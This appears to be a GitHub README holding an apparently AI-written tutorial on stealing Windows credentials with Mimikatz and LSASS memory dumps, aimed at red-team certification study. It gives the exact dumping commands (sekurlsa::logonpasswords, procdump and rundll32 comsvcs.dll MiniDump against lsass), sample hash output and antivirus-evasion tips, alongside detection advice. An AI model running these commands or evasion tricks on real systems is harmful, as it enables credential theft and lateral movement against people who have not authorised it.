 # Mimikatz-LSASS-Dumping
Great question 👌 You’re now entering the **Credential Access** stage of the MITRE ATT\&CK framework — one of the most critical areas in **red teaming** and CRTA. Let’s break down **how attackers use tools like Mimikatz and LSASS dumps to steal credentials**, with step-by-step details and safe lab examples.

---

# 🔐 Credential Access: Mimikatz & LSASS Dumping

## ⚡ 1. What is LSASS?

* **LSASS (Local Security Authority Subsystem Service)** is a Windows process (`lsass.exe`) that handles:

  * Authentication (passwords, Kerberos, NTLM hashes)
  * Enforcing security policies
  * Token creation for logins

👉 Because it caches credentials in memory, attackers target it to **extract plaintext passwords, NTLM hashes, Kerberos tickets**.

---

## ⚡ 2. Method 1: Mimikatz (Direct Credential Dumping)

**Mimikatz** is the most famous post-exploitation tool for credential extraction.

### 🔹 Steps (Lab Use Only)

1. Get a **high-privilege shell** (Administrator or SYSTEM).
   Example (from Meterpreter):

   ```bash
   getsystem
   ```
2. Run Mimikatz interactively:

   ```powershell
   mimikatz.exe
   ```
3. Enable debug privilege:

   ```text
   privilege::debug
   ```
4. Dump credentials from memory:

   ```text
   sekurlsa::logonpasswords
   ```

   ➝ Shows plaintext creds, NTLM hashes, Kerberos tickets.

### 🔹 Example Output

```
Username: Administrator
Domain:   LAB.local
NTLM:     aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0
Password: P@ssw0rd123
```

👉 Now attacker can use the **hash for Pass-the-Hash** or the password for lateral movement.

---

## ⚡ 3. Method 2: LSASS Process Dump + Offline Extraction

Instead of running Mimikatz directly (which AV/EDR might block), attackers often **dump LSASS memory** and extract credentials offline.

### 🔹 Steps

1. Open CMD/PowerShell as Administrator.

2. Use **Task Manager** or `tasklist` to find LSASS PID:

   ```powershell
   tasklist /FI "IMAGENAME eq lsass.exe"
   ```

3. Dump LSASS memory using `procdump` (Sysinternals tool):

   ```powershell
   procdump.exe -ma <PID> lsass.dmp
   ```

   Example:

   ```powershell
   procdump.exe -ma 632 lsass.dmp
   ```

   ➝ Dumps process memory to `lsass.dmp`.

4. Transfer `lsass.dmp` to attacker machine and parse with Mimikatz:

   ```text
   sekurlsa::minidump lsass.dmp
   sekurlsa::logonpasswords
   ```

### 🔹 Example Result

```
Username: John
Domain:   CORP
NTLM:     b4b9b02e6f09a9bd760f388b67351e2b
Password: (null)
```

---

## ⚡ 4. Detection Evasion Tricks (Used by Real Adversaries)

* Use **Living Off the Land Binaries (LOLBins)** like `rundll32` or `comsvcs.dll` to dump LSASS without dropping tools.

  ```powershell
  rundll32.exe comsvcs.dll, MiniDump <LSASS_PID> C:\Windows\Temp\lsass.dmp full
  ```
* Rename/obfuscate Mimikatz to bypass AV.
* Inject into another process before dumping LSASS.

---

## ⚡ 5. Defensive Considerations (Blue Team Angle)

Organizations detect/prevent this by:

* **LSASS Protection** → Windows Defender Credential Guard, RunAsPPL
* **EDR Alerts** → Procdump on LSASS, suspicious memory access
* **Segregation of Privileges** → Avoid domain admins logging into workstations
* **Event IDs** → Monitor for 4624/4672 + memory dump events

---

# 📘 Summary

* **Mimikatz (direct)** → Extract creds live from LSASS.
* **LSASS Dump (offline)** → Dump memory, analyze later with Mimikatz.
* **Credentials Extracted** → Plaintext, NTLM hashes, Kerberos tickets.
* **Used For** → Pass-the-Hash, Pass-the-Ticket, Lateral Movement.

---

⚠️ Important: These techniques are **for lab/authorized environments only** (like CRTA labs, AD practice labs, or personal VMs). Running Mimikatz or dumping LSASS on a production/corporate machine without explicit permission is illegal.

---

Would you like me to also show you how to **set up a mini Active Directory lab** (with a Domain Controller + client + attacker machine) so you can safely practice LSASS dumping and Mimikatz before CRTA?
